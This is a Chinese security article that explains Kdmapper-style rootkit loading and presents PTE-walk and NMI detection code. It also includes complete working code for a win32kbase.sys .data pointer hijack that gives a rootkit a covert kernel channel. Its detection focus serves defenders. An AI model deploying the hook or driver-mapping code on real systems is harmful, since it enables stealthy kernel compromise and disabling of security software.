







# 从Kdmapper到高级Rootkit检测：PTE Walk与NMI在反Rootkit中的应用-先知社区

> **来源**: https://xz.aliyun.com/news/18995  
> **文章ID**: 18995

---

## 前言

内核Rootkit以其高权限、高隐蔽性而著称，而传统的防御手段效率过于低下，不适合实战攻防。本文从内核Rootkit攻击的原理出发，剖析了著名的Kdmapper手动映射驱动项目，再从内存扫描、堆栈遥测、通信检测三个角度提出了较为先进的防御手段，帮助读者理解现代内核安全领域的攻防实践手法。

## KdMapper

[Kdmapper](%5BTheCruZ/kdmapper:%20KDMapper%20is%20a%20simple%20tool%20that%20exploits%20iqvw64e.sys%20Intel%20driver%20to%20manually%20map%20non-signed%20drivers%20in%20memory%5D(https://github.com/TheCruZ/kdmapper))可能是最有名的内核Rootkit项目，利用了早些年intel驱动中的任意内核地址读写漏洞实现了手动将驱动映射至内核地址空间中执行，绕过了Windows的驱动签名验证。

项目源码中的核心功能函数是kdmapper::MapDriver，首先分配内存:

```
ULONG64 kernel_image_base = 0;
if (mode == AllocationMode::AllocateIndependentPages)
{   // 这个模式是防止分配出大页内存
    kernel_image_base = intel_driver::MmAllocateIndependentPagesEx(image_size);
}
else { // AllocatePool by default
    kernel_image_base = intel_driver::AllocatePool(nt::POOL_TYPE::NonPagedPool, image_size);
}
```

接着是解析PE结构、重定位等工作，与DLL的反射加载类似，这里就不贴了。然后将拉伸映射好的PE内存写入内核：

```
// Write fixed image to kernel

if (!intel_driver::WriteMemory(realBase, (PVOID)((uintptr_t)local_image_base + (destroyHeader ? TotalVirtualHeaderSize : 0)), image_size)) {
    Log(L"[-] Failed to write local image to remote image" << std::endl);
    kernel_image_base = realBase;
    break;
}
```

设置页属性为可执行：

```
if (!intel_driver::MmSetPageProtection(secAddr, secSize, prot)) {
    Log(L"[-] Failed to set protection for section: " << (char*)sec->Name << std::endl);
}
```

接着调用DriverEntry：

```
NTSTATUS status = 0;
if (!intel_driver::CallKernelFunction(&status, address_of_entry_point, (PassAllocationAddressAsFirstParam ? realBase : param1), param2)) {
    Log(L"[-] Failed to call driver entry" << std::endl);
    kernel_image_base = realBase;
    break;
}
```

这里的CallKernelFunction实现比较有意思，Hook了NtAddAtom函数，jump到自己的DriverEntry执行

核心功能点如上；Kdmapper项目还抹除了PiDDBCacheTable、g\_KernelHashBucketList、MmUnloadedDrivers中漏洞驱动的加载痕迹，在驱动加载这方面几乎没法检测了，有一个项目从Kdmapper中专门摘出了这一部分，做的很优秀：[FiYHer/system\_trace\_tool: 内核驱动加载/卸载痕迹清理,努力绕过反作弊吧 PiDDBCacheTable and MmLastUnloadedDriver](https://github.com/FiYHer/system_trace_tool/tree/main)

Kdmapper只是一个引子，有大量的内核Rootkit使用了类似Kdmapper的加载方式，利用的漏洞驱动也百花齐放。最近几年，在传统内存检测的基础上，页表扫描的方法被提出；插中断扫描堆栈的方法也对Rootkit线程捕获很有效果。下面我将从这几个方面出发，让rootkit无所遁形。

## PTE Walk

以往的内存扫描有两种，分别是扫描线性地址或物理地址。这两种方法的缺陷都是很大的，比如如下的扫描线性地址伪代码：

```
NTSTATUS
CheckVirtualAddress()
{
    ULONG64 start = 0xFFFF080000000000;
    ULONG64 end   = 0xFFFFFFFFFFFFFFFF;
    for(ULONG idx = 0;start + idx*PAGE_SIZE < end;idx++){
        // 按页检查Rookit
        CheckPage(start+idx*PAGE_SIZE);
    }
}
```

整个内核的地址空间有248TB，像这样逐页扫描的耗时是相当恐怖的，完全不能使用；扫描物理地址就更不用说，因为物理地址是不连续的，且同一个物理地址映射到多个虚拟地址，处理起来很麻烦。

因此，一种基于页表的新扫描办法被提出，称其为PTE Walk，我们来看看X64下的页表结构：



X64下采用了四级页表的结构，从高到低分别是PML4,PDPT,PD,PT，每一个页表的页表项结构基本一样，如下：

```
typedef union _HARDWARE_PTE_X64 {
    ULONG64 value;
    struct {
        ULONG64 present : 1;            // bit 0
        ULONG64 write : 1;              // bit 1
        ULONG64 owner : 1;
        ULONG64 writeThrough : 1;
        ULONG64 cacheDisable : 1;
        ULONG64 accessed : 1;
        ULONG64 dirty : 1;
        ULONG64 large_page : 1;         // bit 7
        ULONG64 global : 1;
        ULONG64 copyOnWrite : 1;
        ULONG64 prototype : 1;
        ULONG64 reserved0 : 1;
        ULONG64 page_frame_number : 36; // bits 12..47
        ULONG64 reserved1 : 4;
        ULONG64 softwareWsIndex : 11;
        ULONG64 noExecute : 1;          // bit 63
    } Bits;
} HARDWARE_PTE_X64, * PHARDWARE_PTE_X64;
```

其中有一些很关键的位，比如present表示页表项管理的这一页是否在**物理地址**中有映射，write表示是否可写，noExecute表示是否可执行，large\_page表示是否为大页。通常来说一页是0x1000字节大小，由PTE管理；而大页可能是2M或者1G大小，由PDE或PDPTE管理。

通过判断页表**是否为大页以及是否有效**，我们可以跳过大部分无效的页，专注于少量真正被映射的页。（为什么说是少量？因为真实的物理内存远远小于248TB）来看看如下代码：

```
static VOID WalkAndPrint(void)
{
    DbgPrintEx(77, 0, "[Walk] enter, Range=[%p, %p)
", (PVOID)gScanStart, (PVOID)gScanEnd);

    // 通过CR3拿到PML4的表基地址
    CR3_X64 temp_cr3;
    temp_cr3.value = __readcr3();

    ULONGLONG cr3_pa = (temp_cr3.Bits.PhysicalAddress << 12);
    PVOID cr3_va = VaFromPa(cr3_pa);// 映射为线性地址，进行线性扫描

    if (!cr3_va || !MmIsAddressValid(cr3_va)) {
        DbgPrintEx(77, 0, "[Walk][FATAL] VaFromPa(CR3=0x%llX) -> %p invalid
", cr3_pa, cr3_va);
        return;
    }
    DbgPrintEx(77, 0, "[Walk] CR3.PA=0x%llX -> CR3.VA=%p
", cr3_pa, cr3_va);

    ULONGLONG runBase = 0, runSize = 0;
    PAGE_PROPERTIES runProps = { 0 };

    // 算出起始、结束地址对应的PML4索引，即Bit[39...47]
    ULONG pml4_start = (ULONG)((gScanStart >> 39) & 0x1FF);
    ULONG pml4_end = (ULONG)(((gScanEnd - 1) >> 39) & 0x1FF);

    // 从PML4开始，像操作系统解析线性地址那样，手动解析地址进行扫描
    for (ULONG i = pml4_start; i <= pml4_end; ++i)
    {

        PHARDWARE_PTE_X64 pml4e = (PHARDWARE_PTE_X64)((PUCHAR)cr3_va + i * sizeof(ULONG64));
        // 通过判断Present位迅速跳过无效页，极大加快扫描速度
        if (!MmIsAddressValid(pml4e) || !pml4e->Bits.present) {
            continue;
        }

        // PDPT
        ULONGLONG pdpt_pa = ((ULONGLONG)pml4e->Bits.page_frame_number << 12);
        PVOID pdpt_va = VaFromPa(pdpt_pa);
        // 同上
        if (!pdpt_va || !MmIsAddressValid(pdpt_va)) {
            continue;
        }

        ULONG pdpt_start = (ULONG)((gScanStart >> 30) & 0x1FF);
        ULONG pdpt_end = (ULONG)(((gScanEnd - 1) >> 30) & 0x1FF);
        if (i != pml4_start) pdpt_start = 0;
        if (i != pml4_end)   pdpt_end = 511;

        for (ULONG x = pdpt_start; x <= pdpt_end; ++x)
        {
            PHARDWARE_PTE_X64 pdpte = (PHARDWARE_PTE_X64)((PUCHAR)pdpt_va + x * sizeof(ULONG64));
            if (!MmIsAddressValid(pdpte))
                break;

            ULONGLONG pdpt_va_base = Canonicalize48(((ULONGLONG)i << 39) | ((ULONGLONG)x << 30));
            ULONGLONG pdpt_va_end = pdpt_va_base + SPAN_PDPT;
            if (pdpt_va_end <= gScanStart || pdpt_va_base >= gScanEnd)
                continue;

            if (!pdpte->Bits.present)
                continue;

            // 处理1GB大页
            if (pdpte->Bits.large_page) {
                PAGE_PROPERTIES props;
                props.R = (BOOLEAN)pdpte->Bits.present;
                props.W = (BOOLEAN)pdpte->Bits.write;
                props.X = (BOOLEAN)!pdpte->Bits.noExecute;
                ULONGLONG segBeg = UMAX64(pdpt_va_base, gScanStart);
                ULONGLONG segEnd = UMIN64(pdpt_va_end, gScanEnd);
                AddRange(segBeg, segEnd - segBeg, &props, &runBase, &runSize, &runProps);
                continue;
            }

            // PD
            ULONGLONG pd_pa = ((ULONGLONG)pdpte->Bits.page_frame_number << 12);
            PVOID pd_va = VaFromPa(pd_pa);
            if (!pd_va || !MmIsAddressValid(pd_va)) {
                continue;
            }

            ULONG pd_start = (ULONG)((gScanStart >> 21) & 0x1FF);
            ULONG pd_end = (ULONG)(((gScanEnd - 1) >> 21) & 0x1FF);
            if (i != pml4_start || x != pdpt_start) pd_start = 0;
            if (i != pml4_end || x != pdpt_end)   pd_end = 511;

            for (ULONG y = pd_start; y <= pd_end; ++y)
            {
                PHARDWARE_PTE_X64 pde = (PHARDWARE_PTE_X64)((PUCHAR)pd_va + y * sizeof(ULONG64));
                if (!MmIsAddressValid(pde))
                    break;

                ULONGLONG pd_va_base = Canonicalize48(((ULONGLONG)i << 39) |
                                                      ((ULONGLONG)x << 30) |
                                                      ((ULONGLONG)y << 21));
                ULONGLONG pd_va_end = pd_va_base + SPAN_PD;
                if (pd_va_end <= gScanStart || pd_va_base >= gScanEnd)
                    continue;

                if (!pde->Bits.present)
                    continue;

                // 处理2MB大页
                if (pde->Bits.large_page) {
                    PAGE_PROPERTIES props;
                    props.R = (BOOLEAN)pde->Bits.present;
                    props.W = (BOOLEAN)pde->Bits.write;
                    props.X = (BOOLEAN)!pde->Bits.noExecute;
                    ULONGLONG segBeg = UMAX64(pd_va_base, gScanStart);
                    ULONGLONG segEnd = UMIN64(pd_va_end, gScanEnd);
                    AddRange(segBeg, segEnd - segBeg, &props, &runBase, &runSize, &runProps);
                    continue;
                }

                // PT
                ULONGLONG pt_pa = ((ULONGLONG)pde->Bits.page_frame_number << 12);
                PVOID pt_va = VaFromPa(pt_pa);
                if (!pt_va || !MmIsAddressValid(pt_va)) {
                    continue;
                }

                ULONG pt_start = (ULONG)((gScanStart >> 12) & 0x1FF);
                ULONG pt_end = (ULONG)(((gScanEnd - 1) >> 12) & 0x1FF);
                if (i != pml4_start || x != pdpt_start || y != pd_start) pt_start = 0;
                if (i != pml4_end || x != pdpt_end || y != pd_end)   pt_end = 511;

                for (ULONG z = pt_start; z <= pt_end; ++z)
                {
                    PHARDWARE_PTE_X64 pte = (PHARDWARE_PTE_X64)((PUCHAR)pt_va + z * sizeof(ULONG64));
                    if (!MmIsAddressValid(pte))
                        break;

                    ULONGLONG va = Canonicalize48(((ULONGLONG)i << 39) |
                                                  ((ULONGLONG)x << 30) |
                                                  ((ULONGLONG)y << 21) |
                                                  ((ULONGLONG)z << 12));
                    if (va + SPAN_PT <= gScanStart) continue;
                    if (va >= gScanEnd) break;

                    // 处理正常的4KB小页
                    if (pte->Bits.present) {
                        PAGE_PROPERTIES props;
                        props.R = (BOOLEAN)pte->Bits.present;
                        props.W = (BOOLEAN)pte->Bits.write;
                        props.X = (BOOLEAN)!pte->Bits.noExecute;
                        AddRange(va, SPAN_PT, &props, &runBase, &runSize, &runProps);
                    }
                }
            }
        }
    }


    EmitRun(runBase, runSize, &runProps);
    DbgPrintEx(77, 0, "[Walk] leave
");
}
```

测试如下，我分别在使用kdmapper手动映射驱动前、后进行了扫描；首先看看驱动被映射的位置



再看看扫描的结果对比：



显然kdmapper分配内存然后映射驱动这一特征点被我们捕捉到了，此时杀毒/反作弊对可执行页进一步扫描，则可以检测到Rookit，或者提取其特征。更重要的是，这一方法扫描整个内核空间耗时不超过一秒，是一种相当高校、准确的Anti-Rootkit方法。

## NMI

现在再来看看扫描Rootkit的另一类思想：中断。这种思想通过向CPU的各核心发送中断，打断正在执行的线程并对其堆栈合法性进行检查。对于kdmapper加载的这种rootkit来说，其堆栈中的返回地址一定不在合法模块内（模块踩踏除外），利用这一点可以捕捉到内核中正在执行的rootkit线程。

当然中断有很多种，像IPI、DPC、APC都可以打断线程执行我们的堆栈检查回调；我这里选择了NMI（Non-Maskable Interrupt）即不可屏蔽中断。使用如下代码向CPU所有核心发送NMI：

```
NTSTATUS
LaunchNonMaskableInterrupt(_In_ PNMI_CONTEXT NmiContext)
{
    if (!NmiContext)
        return STATUS_INVALID_PARAMETER;

    PKAFFINITY_EX ProcAffinityPool =
        ExAllocatePool2(POOL_FLAG_NON_PAGED, sizeof(KAFFINITY_EX), PROC_AFFINITY_POOL);

    if (!ProcAffinityPool)
        return STATUS_MEMORY_NOT_ALLOCATED;
    // 这里注册了NMI回调，打断后进入NmiCallback
    PVOID registration_handle = KeRegisterNmiCallback(NmiCallback, NmiContext);

    if (!registration_handle)
    {
        ExFreePoolWithTag(ProcAffinityPool, PROC_AFFINITY_POOL);
        return STATUS_MEMORY_NOT_ALLOCATED;
    }

    LARGE_INTEGER delay = {0};
    delay.QuadPart -= 100 * 10000;

    for (ULONG core = 0; core < KeQueryActiveProcessorCount(0); core++)
    {
        KeInitializeAffinityEx(ProcAffinityPool);
        KeAddProcessorAffinityEx(ProcAffinityPool, core);

        DEBUG_LOG("Sending NMI");
        HalSendNMI(ProcAffinityPool);

        // 同一时间只能处理一个NMI，所以这里加个延时
        // 确保NMI回调执行完毕
        KeDelayExecutionThread(KernelMode, FALSE, &delay);
    }

    KeDeregisterNmiCallback(registration_handle);
    ExFreePoolWithTag(ProcAffinityPool, PROC_AFFINITY_POOL);

    return STATUS_SUCCESS;
}
```

注意一个内核编程的细节，在高IRQL下执行代码要尽可能简单、短暂，否则操作系统有什么其他错误没法及时处理就会蓝屏。所以我们需要把堆栈检测分为**采集堆栈+堆栈分析**两个步骤，其中 采集堆栈在NmiCallback中完成。

回调函数主要参考[周旋久](%5B%5B%E5%8E%9F%E5%88%9B%5C%5D%E4%BD%BF%E7%94%A8NMI%E4%B8%AD%E6%96%AD%E6%A3%80%E6%B5%8B%E6%97%A0%E6%A8%A1%E5%9D%97%E9%A9%B1%E5%8A%A8-%E7%BC%96%E7%A8%8B%E6%8A%80%E6%9C%AF-%E7%9C%8B%E9%9B%AA%E8%AE%BA%E5%9D%9B-%E5%AE%89%E5%85%A8%E7%A4%BE%E5%8C%BA%7C%E9%9D%9E%E8%90%A5%E5%88%A9%E6%80%A7%E8%B4%A8%E6%8A%80%E6%9C%AF%E4%BA%A4%E6%B5%81%E7%A4%BE%E5%8C%BA%5D(https://bbs.kanxue.com/thread-288576.htm))师傅的方法，只有他这么做才不会蓝屏，直接在回调函数中调用RtlWalkFrameChain采集堆栈是会蓝屏的。

其代码如下：

KPCR是每个CPU核心私有的一个结构，存储了一些上下文切换时的寄存器信息，加速上下文切换

TSS在X64下基本不怎么用了，但其中保存了异常处理的栈地址

machineFrame是压入异常处理栈的一个结构，其中保存了返回地址RIP以及RSP，这正是我们需要的

```
NmiCallback(_In_ BOOLEAN Handled)
{
    UNREFERENCED_PARAMETER(Handled);

    UINT64                 kpcr          = 0;
    TASK_STATE_SEGMENT_64* tss           = NULL;
    PMACHINE_FRAME         machineFrame  = NULL;


    kpcr          = __readmsr(IA32_GS_BASE);// 拿到当前CPU的KPCR
    tss           = *(TASK_STATE_SEGMENT_64**)(kpcr + KPCR_TSS_BASE_OFFSET);// 0x8
    machineFrame = tss->Ist3 - sizeof(MACHINE_FRAME);

    {
        // 在这里对堆栈检查，比如是否在有效模块内
        // 不在的话则认为是内核shellcode
        CheckStack(machineFrame->rip,machineFrame->rsp);

    }
}
```

拿到RIP后，就可以判断其是否在正常的内核模块范围内，若不在，则判定为Rootkit

```
IsInstructionPointerInInvalidRegion(_In_ UINT64          RIP,
                                    _In_ PSYSTEM_MODULES SystemModules,
                                    _Out_ PBOOLEAN       Result)
{
    if (!RIP || !SystemModules || !Result)
        return STATUS_INVALID_PARAMETER;


    for (INT i = 0; i < SystemModules->module_count; i++)
    {
        // 不会检查HAL层和PatchGuard的运行
        PRTL_MODULE_EXTENDED_INFO system_module =
            (PRTL_MODULE_EXTENDED_INFO)((uintptr_t)SystemModules->address +
                                                i * sizeof(RTL_MODULE_EXTENDED_INFO));

        UINT64 base = (UINT64)system_module->ImageBase;
        UINT64 end  = base + system_module->ImageSize;

        if (RIP >= base && RIP <= end)
        {
            *Result = TRUE;
            return STATUS_SUCCESS;
        }
    }

    *Result = FALSE;
    return STATUS_SUCCESS;
}
```

利用NMI中断检测Rootkit有一个弊端，那就是Rootkit的运行要相对活跃一点，这样我们才能有效命中其线程；对于一些游戏外挂的rookit来说是比较管用的

## 通信检查

### .data ptr hijack

在我的[上一篇文章](%5Bxz.aliyun.com/news/18872%5D(https://xz.aliyun.com/news/18872))中讲了利用ETW挂钩系统调用，我们可以复用这一思想，对NtDeviceIoControl进行监控；因为BYOVD这样的攻击是利用合法驱动的漏洞来强杀EDR的，而合法驱动通常就采用IRP进行通信。

这又引出一个问题：如果Rootkit驱动是攻击者自己的呢？那很显然攻击者不会在使用Windows提供的这种官方通信手段了，而转而使用一些更隐蔽的通信手段，比如.data ptr劫持。

.data ptr劫持是在游戏外挂圈被提出的一个概念，它利用Patch Guard对.data段中的函数指针监控不严格这一特性，替换某些在**3环能够直接调用，调用完毕后发送至内核的特殊函数**，这类函数通常存在于win32k.sys，win32kbase.sys等

Windows的图形子系统原本是纯3环实现的，在后来的更新中被搬进了0环，由于微软工程师考虑不周暴露出了很多的安全漏洞，之前奇安信披露的[StepBear](%5B%E5%A5%87%E5%AE%89%E4%BF%A1%E5%A8%81%E8%83%81%E6%83%85%E6%8A%A5%E4%B8%AD%E5%BF%83%5D(https://ti.qianxin.com/blog/articles/The-Nightmare-of-EDR-Storm-0978-Utilizing-New-Kernel-Injection-Technique-Step-Bear-CN/))技术就是在这个驱动中的。

这里我们介绍一种不依赖于高频线程的.data ptr劫持，在一定程度上能规避NMI中断命中Rootkit线程。

对于win32kbase.sys来说，这个特殊的驱动在会话空间中加载，它会被映射到GUI进程（比如Winlogon）中，因此我们想要替换.data ptr需要调用KeStackAttachProcess挂靠到Winlogon的上下文中，再通过特征码的方法定位要替换的函数指针。本人的测试系统为**Win11 21H2**，不同系统差异可能较大。

我们关注的函数指针位于ApiSetEditionCreateWindowStationEntryPoint中，如下：


但是ApiSetEditionCreateWindowStationEntryPoint是未导出的，定位这个函数有点麻烦，不妨先定位其上层封装函数NtUserCreateWindowStation，这个函数是导出的


下面是一个在指定模块定位导出函数的工具方法：

```
PVOID
        GetSystemRoutineAddress(
    const PWCHAR& moduleName, 
    const PCHAR& functionToResolve
        )
    {
    PVOID moduleBase = EvscGetBaseAddrOfModule(moduleName);

    DbgPrint("0x%lx\r
", (ULONG_PTR)moduleBase);

    if (!moduleBase)
        return NULL;

    // 解析PE头和导出表目录
    PFULL_IMAGE_NT_HEADERS ntHeader = (PFULL_IMAGE_NT_HEADERS)((ULONG_PTR)moduleBase + ((PIMAGE_DOS_HEADER)moduleBase)->e_lfanew);
    PIMAGE_EXPORT_DIRECTORY exportDir = (PIMAGE_EXPORT_DIRECTORY)((ULONG_PTR)moduleBase + ntHeader->OptionalHeader.DataDirectory[0].VirtualAddress);

    PULONG addrOfNames = (PULONG)((ULONG_PTR)moduleBase + exportDir->AddressOfNames);
    PULONG addrOfFuncs = (PULONG)((ULONG_PTR)moduleBase + exportDir->AddressOfFunctions);
    PUSHORT addrOfOrdinals = (PUSHORT)((ULONG_PTR)moduleBase + exportDir->AddressOfNameOrdinals);

    // 遍历导出目录
    for (unsigned int i = 0; i < exportDir->NumberOfNames; ++i)
    {
        CHAR* currentFunctionName = (CHAR*)((ULONG_PTR)moduleBase + (ULONG_PTR)addrOfNames[i]);


        if (strcmp(currentFunctionName, functionToResolve) == 0)
        {
            PULONG addr = (PULONG)((ULONG_PTR)moduleBase + (ULONG_PTR)addrOfFuncs[addrOfOrdinals[i]]);
            return (PVOID)addr;
        }
    }

    return NULL;
}
```

定位NtUserCreateWindowStation

PVOID funcAddr = GetSystemRoutineAddress(L"win32kbase.sys", "NtUserCreateWindowStation");

下面是ApiSetEditionCreateWindowStationEntryPoint中函数指针的特征部分，通过48 8B 05 ?? ?? ?? ?? 48 85 C0定位即可


定位、替换指针的完整代码如下：

```
NTSTATUS 
    DriverEntry(
    _In_ PDRIVER_OBJECT   DriverObject,
    _In_ PUNICODE_STRING  RegistryPath
) {
    UNREFERENCED_PARAMETER(RegistryPath);

    KAPC_STATE apcState = { 0 };
    //
    // 将驱动线程挂靠到GUI程序Winlogon上，这样才能访问win32kbase.sys
    //
    UNICODE_STRING sWinLogon = RTL_CONSTANT_STRING(L"winlogon.exe");
    HANDLE winlogonPid = Memory::EvscGetPidFromProcessName(sWinLogon);
    DbgPrint("[*] winLogonPid: 0x%x
", HandleToULong(winlogonPid));

    PsLookupProcessByProcessId(winlogonPid, &g_pWinlogon);


    //
    // 共享内存用于写入Payload，返回的地址为g_hSharedMemory
    //
    if (!NT_SUCCESS(CreateSharedMemory()))
    {
        DbgPrint("[!] Could not create shared memory
");
        return STATUS_FAILED_DRIVER_ENTRY;
    }
    // 挂靠
    KeStackAttachProcess(g_pWinlogon, &apcState);
    {
        // 
        // 定位NtUserCreateWindowStation
        //
        PVOID funcAddr = Memory::EvscGetSystemRoutineAddress(L"win32kbase.sys", "NtUserCreateWindowStation");
        if (!funcAddr)
        {
            KeUnstackDetachProcess(&apcState);
            return STATUS_NOT_FOUND;
        }
        DbgPrint("[*] NtUserCreateWindowStation found at 0x%llx
", (ULONG_PTR)funcAddr);


        //
        // 特征定位.data ptr
        //
        ULONG_PTR dataPtrPattern = (ULONG_PTR)FindPattern(
            (PVOID)(funcAddr),
            200, 
            "\x48\x8B\x05\x00\x00\x00\x00\x48\x85\xC0", 
            "xxx????xxx"
        );
        // 48 8B 05 ?? ?? ?? ?? 48 85 C0

        if (dataPtrPattern)
        {
            DbgPrint("    Pattern : 0x%llx\r
", dataPtrPattern);
            UINT32 offset = *(PUINT32)(dataPtrPattern + 3);
            DbgPrint("    Offset  : 0x%lx\r
", offset);
            g_dataPtrAddress = dataPtrPattern + offset + 3 + 4;
            DbgPrint("    .data ptr addr : 0x%llx\r
", g_dataPtrAddress);
        }
        else
        {
            DbgPrint("[!] Pattern not found\r
");
            KeUnstackDetachProcess(&apcState);
            return STATUS_NOT_FOUND;
        }

        // 
        // 交换函数指针，实现Hook
        //
        *(PVOID*)&g_pOriginalFunction = _InterlockedExchangePointer((PVOID*)g_dataPtrAddress, HookedFunction);
        DbgPrint("[*] .data ptr hooked\r
");

    }
    KeUnstackDetachProcess(&apcState);

    return STATUS_SUCCESS;
}
```

我们的代码只用于简单的通信测试，Hook函数写的简单点：

```
INT HookedFunction(int a1, int a2, int a3, int a4, int a5, __int64 a6, __int64 a7, int a8)
{
    DbgPrint("[*] Hook triggered\r
");

    if (ExGetPreviousMode() == UserMode && g_pSharedMemory)
    {
        // 读取共享内存中3环写入的payload
        KAPC_STATE apc = { 0 };
        KeStackAttachProcess(g_pWinlogon, &apc);
        PAYLOAD payload = *(PAYLOAD*)g_pSharedMemory;
        DbgPrint("[*] Got command: %i\r
", payload.cmdType);
        // 标记已被执行过，让3环读取结果
        (*((PAYLOAD*)g_pSharedMemory)).executed = 1;
        (*((PAYLOAD*)g_pSharedMemory)).status = 0;
        KeUnstackDetachProcess(&apc);
    }

    return g_pOriginalFunction(a1, a2, a3, a4, a5, a6, a7, a8);
}
```

3环的实现就很简单了：

* 获取到共享内存的地址
* 调用CreateWindowsStationA触发0环hook，实现通信

```
INT
main()
{
    // 打开驱动创建的共享内存区域
    HANDLE hMapFile = OpenFileMappingW(FILE_MAP_ALL_ACCESS, FALSE, L"Global\Rootkit");
    if (!hMapFile)
    {
        return 1;
    }

    // 将这一区域映射到自己的地址空间中
    PAYLOAD* pSharedBuf = (PAYLOAD*)MapViewOfFile(hMapFile, FILE_MAP_ALL_ACCESS, 0, 0, sizeof(PAYLOAD));
    if (!pSharedBuf)
    {
        return 2;
    }

    // 填充payload
    PAYLOAD payload = { 0 };
    payload.cmdType = CMD_LOG_MESSAGE;
    payload.executed = 0;
    RtlCopyMemory(pSharedBuf, &payload, sizeof(PAYLOAD));

    // 触发Hook
    std::cout << "[*] Triggering driver" << std::endl;
    HWINSTA hWinSta = CreateWindowStationA(
        "MyWinStation",
        0,
        WINSTA_ALL_ACCESS,
        NULL
    );

    // 等待一秒，检查payload有没有被修改
    while (!pSharedBuf->executed)
        Sleep(1000);
    std::cout << "[*] Status: " << pSharedBuf->status << std::endl;
}
```

测试效果如下：



在实际的rootkit中，可将payload替换成强杀杀毒软件或连接C2等功能。

### 检测

以上的通信手段仅仅替换了一个函数指针，想要检测是相对困难的。据我所知，目前有大量的.data ptr被应用于游戏外挂的通信中，反作弊的检测手段是捕捉到这些异常高频的函数调用，追踪到对应的内核函数，比如这里的NtUserCreateWindowStation，再检测其中的函数指针有没有被篡改，比如.data ptr指向了win32kbase.sys外的地址，那很显然是被篡改了。

此后，反作弊会标记这个.data ptr，下次则以特征扫描的方法直接对比是否被篡改。理论上，我们可以直接监控win32kbase.sys、win32k.sys、ntoskrnl.exe这些易受攻击的驱动中的所有的函数指针，定时检测是否被篡改。但这几乎是不可行的，因为Windows中的可能被替换的函数指针太多了，就连PatchGuard自己都没法做到全部监控，再加上不同版本函数差异太大，任何杀毒或者反作弊都没有精力监控全部的函数指针。

## 参考文章及项目

[1] [反反 Rootkit 技术 - 第三部分：劫持指针 --- (Anti-)Anti-Rootkit Techniques - Part III: Hijacking Pointers](https://eversinc33.com/posts/anti-anti-rootkit-part-iii.html)

